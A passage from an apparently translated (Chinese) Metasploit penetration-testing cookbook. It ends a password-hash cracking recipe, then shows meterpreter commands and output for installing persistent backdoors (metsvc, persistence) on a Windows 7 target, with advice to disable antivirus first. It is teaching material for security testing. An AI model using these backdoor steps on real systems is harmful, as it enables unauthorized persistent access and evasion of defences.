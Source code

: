 如您所见，我们的输入哈希已找到匹配项，相应的可读密码为 123。

需要注意的一点是，破解密码完全取决于其强度。相对于复杂密码，较弱的密码会更容易破解。复杂密码将生成在线数据库中不存在的哈希。因此，考虑使用基于彩虹表的破解器。有关此主题的更多信息可以在以下 URL 找到：

[`bernardodamele.blogspot.in/#!http://bernardodamele.blogspot.com/2011/12/dump-windows-password-hashes.html`](http://bernardodamele.blogspot.in/#!http://bernardodamele.blogspot.com/2011/12/dump-windows-password-hashes.html)。

# 建立与后门的持久连接

我们从一个预入侵技术开始这本书，重点是信息收集。然后，我们继续前进到利用阶段，在那里我们学习了不同的方式来妥协目标。然后，我们学习了一些有用的后期利用技术，可以在妥协目标之后实施。现在，在这个配方中，我们将学习**永久利用技术**，在这里我们将尝试与我们的目标建立持久连接，以便我们可以随意连接到它。作为攻击者，或目标机器，不能总是可用，对目标进行后门处理可以有效地建立持久连接。

## 准备工作

Meterpreter 为我们提供了两个脚本，可以执行对目标进行后门处理的任务。它们是 Metsvc 和 Persistence。这两个脚本的工作方式类似。让我们逐一处理这两个脚本。

### 注意

这两个 meterpreter 脚本都在目标系统上创建文件，因此可能会触发防病毒软件的警报。因此建议在运行这些脚本之前关闭防病毒程序。

## 如何做...

Metsvc 脚本通过在目标机器上创建临时文件，如 DLL、后门服务器和服务来运行。该脚本还可以启动匹配的 multi/handler 以自动连接到后门。`-A`参数用于此目的。让我们在我们的 Windows 7 目标机器上运行脚本并分析结果。

```
meterpreter > run metsvc -h
OPTIONS:
-A Automatically start a matching multi/handler to connect to the service
-h This help menu
-r Uninstall an existing Meterpreter service (files must be deleted manually)
meterpreter > run metsvc -A
[*] Creating a meterpreter service on port 31337
[*] Creating a temporary installation directory C:\Users\DARKLORD\AppData\Local\Temp\ygLFhIFX...
[*] >> Uploading metsrv.dll...
[*] >> Uploading metsvc-server.exe...
[*] >> Uploading metsvc.exe...
[*] Starting the service...
* Installing service metsvc
* Starting service
Service metsvc successfully installed. 
```

一旦后门文件成功上传，它将自动连接到端口 31337 上的 multi/handler。使用这个后门，我们可以随意连接到目标机器。

另一个有用的后门脚本是持久性脚本。它的工作方式类似于 Metscv，但它具有一些额外的功能，比如定期连接回目标，系统启动时连接回来，自动运行等等。让我们看看我们可以使用的不同选项。

```
meterpreter > run persistence -h
Meterpreter Script for creating a persistent backdoor on a target host.
OPTIONS:
-A Automatically start a matching multi/handler to..
-L <opt> Location in target host where to write payload to..
-P <opt> Payload to use, default is
-S Automatically start the agent on boot as a service
-T <opt> Alternate executable template to use
-U Automatically start the agent when the User logs on
-X Automatically start the agent when the system boots
-h This help menu
-i <opt> The interval in seconds between each connection
-p <opt> The port on the remote host where Metasploit..
-r <opt> The IP of the system running Metasploit listening.. 
```
